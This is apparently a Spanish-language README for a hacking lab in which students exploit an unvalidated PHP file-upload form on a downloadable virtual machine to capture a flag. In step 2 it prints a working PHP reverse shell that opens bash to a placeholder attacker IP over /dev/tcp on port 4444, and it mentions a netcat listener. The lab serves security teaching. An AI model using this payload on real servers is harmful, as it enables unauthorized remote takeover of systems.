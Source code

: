 # Reverse Shell en un Servidor Web

En este laboratorio pondrás en práctica el uso de una **shell inversa** para tomar control remoto de un servidor vulnerable. Tu misión es identificar un formulario mal protegido, subir un archivo malicioso y capturar una flag alojada en el sistema. En este laboratorio aprenderás:

- Detección de formularios sin validación de tipo
- Subida de archivos maliciosos
- Ejecución de una reverse shell en PHP
- Toma de control remoto con `netcat`

<how-to-start>
   
## 🌱 Cómo iniciar este laboratorio

Sigue las siguientes instrucciones para comenzar:

1. **Descarga la máquina virtual** desde este [enlace](https://storage.googleapis.com/cybersecurity-machines/reverse-lab.ova).
2. **Importa la máquina** en tu gestor de virtualización preferido (VirtualBox, VMware, etc.).
3. Una vez iniciada la máquina, ¡ya puedes comenzar con el laboratorio!
</how-to-start>


## 📄 Instrucciones

El servidor aloja un sitio web desarrollado en PHP, accesible por navegador que tiene un formulario que no valida el tipo de archivo que se sube y es tu responsabilidad preparar una reverse shell funcional y lograr que el servidor se conecte de vuelta a tu máquina.


1. **Explorar el sitio web vulnerable**: Accede a la IP de la máquina desde tu navegador y ubica el formulario de subida de archivos.

2. **Prepara tu reverse shell en PHP**: Crea un archivo llamado `shell.php` con este contenido:

     ```php
     <?php
     exec("/bin/bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'");
     ?>
     ```

   - Reemplaza `TU_IP` por la IP de tu máquina atacante.

3. **Levantar un listener en tu máquina**

4. **Subir la reverse shell al servidor**

5. **Activa la conexión inversa**. Accede desde el navegador. Si todo está bien, recibirás una shell interactiva en tu terminal.


**Recuerda:** estás en un entorno controlado para fines educativos. El conocimiento ético es tu mejor herramienta. Observa, explora y aprende a identificar configuraciones inseguras.

¡Feliz hackeo!

